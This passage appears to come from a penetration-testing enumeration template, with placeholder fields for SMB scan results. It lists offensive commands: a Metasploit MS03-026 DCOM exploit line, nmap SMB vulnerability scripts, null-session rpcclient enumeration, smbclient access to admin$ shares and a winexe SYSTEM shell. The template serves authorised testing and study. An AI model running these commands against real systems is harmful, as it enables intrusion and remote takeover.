 Exploit:

```
msf > use exploit/windows/dcerpc/ms03_026_dcom
```

### Port 139/445 - SMB

- Name:
- Version:
- Domain/workgroup name:
- Domain-sid:
- Allows unauthenticated login:

Scan Results:

SMB UDP Nmap Scan Port 137
INSERT_SMB_SCAN_137

SMB UDP Nmap Scan Port 138
INSERT_SMB_SCAN_138

SMB Nmap Scan Port 139
INSERT_SMB_SCAN_139

SMB Nmap Scan Port 445
INSERT_SMB_SCAN_445

Enum4LinuxPort
INSERT_ENUM4LINUX_SCAN


```
nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smbv2-enabled.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse,smbv2-enabled.nse INSERT_IP_ADDRESS -p 445

enum4linux -a INSERT_IP_ADDRESS

rpcclient -U "" INSERT_IP_ADDRESS
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall

smbclient -L INSERT_IP_ADDRESS
smbclient //INSERT_IP_ADDRESS/tmp
smbclient \\\\INSERT_IP_ADDRESS\\ipc$ -U john
smbclient //INSERT_IP_ADDRESS/ipc$ -U john
smbclient //INSERT_IP_ADDRESS/admin$ -U john

Log in with shell:
winexe -U username //INSERT_IP_ADDRESS "cmd.exe" --system

```
